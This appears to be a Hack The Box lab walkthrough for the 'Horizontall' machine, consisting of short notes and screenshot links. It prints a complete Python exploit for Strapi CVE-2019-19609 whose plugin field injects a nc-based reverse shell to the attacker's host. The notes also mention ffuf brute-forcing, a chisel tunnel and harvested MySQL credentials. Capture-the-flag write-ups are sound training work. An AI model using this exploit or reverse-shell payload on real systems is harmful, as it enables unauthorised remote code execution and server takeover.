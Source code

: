 ```yaml
---
title: "Horizontall (images only)"
date: 2021-08-29T18:00:00-00:00
publishdate: 2022-04-28T18:00:00-00:00
releasedate: 2021-08-28T18:00:00-00:00
draft: false
hideTitle: false
Cover: /htb-info-cards/Horizontall.png
icon: /htb-box-icons/Horizontall.png
toc: true
tags: ["Laravel"]
categories: ["Walkthrough", "HTB", "Linux", "Easy"]
---
```


## Introduction

This walkthrough is just a series of screenshots showing how I got through the box. 🤷‍♂ I did this box before I really worked out a process for recording my work effectively. Sorry!

If I find the time, I'll come back to this and try to document it properly. 



## Walkthrough

These are the notes I left for myself:

```
Found login page at http://api-prod.horizontall.htb/admin/auth/login

I could brute-force the login just with ffuf
Or I could try using the OpenSSH user enumeration CVE to obtain a list of users first?

The successful exploit was from https://github.com/dasithsv/CVE-2019-19609
I simply modified the port, (opened the firewall), set up a nc listener and got a shell
rhost was api-prod.horizontall.htb
lhost was 10.10.14.45
jwt was simply the jwt from my logged-in admin session (got it from firefox web dev tools)
url was http://api-prod.horizontall.htb/
```

This is the exploit I used:

```python
#!/bin/python

# Product: Strapi Framework
# Version Affected: strapi-3.0.0-beta.17.7 and earlier
# Fix PR: https://github.com/strapi/strapi/pull/4636
# NPM Advisory: https://www.npmjs.com/advisories/1424
# more information https://bittherapy.net/post/strapi-framework-remote-code-execution/

import requests
import sys

print("\n\n\nStrapi Framework Vulnerable to Remote Code Execution - CVE-2019-19609")
print("please set up a listener on port 31337 before running the script. you will get a shell to that listener\n")

if len(sys.argv) ==5:
    rhost = sys.argv[1]
    lhost = sys.argv[2]
    jwt = sys.argv[3]
    url = sys.argv[4]+'admin/plugins/install'

    headers = {
        'Host': rhost,
        'Authorization': 'Bearer '+jwt,
        'Content-Type': 'application/json',
        'Content-Length': '131',
        'Connection': 'close',
    }

    data = '{ "plugin":"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc '+lhost+' 31337 >/tmp/f)", "port":"80" }'
    response = requests.post(url, headers=headers, data=data, verify=False)

else:
    print('python3 exploit.py <rhost> <lhost> <jwt> <url>')

```



![00-first step](00-first%20step.png)

![01-api-prod enum](01-api-prod%20enum.png)

![02-login page post](02-login%20page%20post.png)

![03-password-reset-possibly-abusable](03-password-reset-possibly-abusable.png)

![04-strapi version](04-strapi%20version.png)

![05-exploit-success](05-exploit-success.png)

![06-logged-in-dashboard](06-logged-in-dashboard.png)

![07-making a user](07-making%20a%20user.png)

![08-uploaded-php](08-uploaded-php.png)

![09-modifying reverse shell](09-modifying%20reverse%20shell.png)

![15-hints of a database](15-hints%20of%20a%20database.png)

![20-mysql credentials in developer folder](20-mysql%20credentials%20in%20developer%20folder.png)

![22-got into mysql db](22-got%20into%20mysql%20db.png)

![34-version fingerprinting laravel](34-version%20fingerprinting%20laravel.png)

![35-version fingerprinting laravel](35-version%20fingerprinting%20laravel.png)

![40-setting up chisel tunnel](40-setting%20up%20chisel%20tunnel.png)

![45-trying out the exploit](45-trying%20out%20the%20exploit.png)

![49-getting root flag easy way](49-getting%20root%20flag%20easy%20way.png)

![50-got root flag](50-got%20root%20flag.png)

![55-getting flag itself](55-getting%20flag%20itself.png)

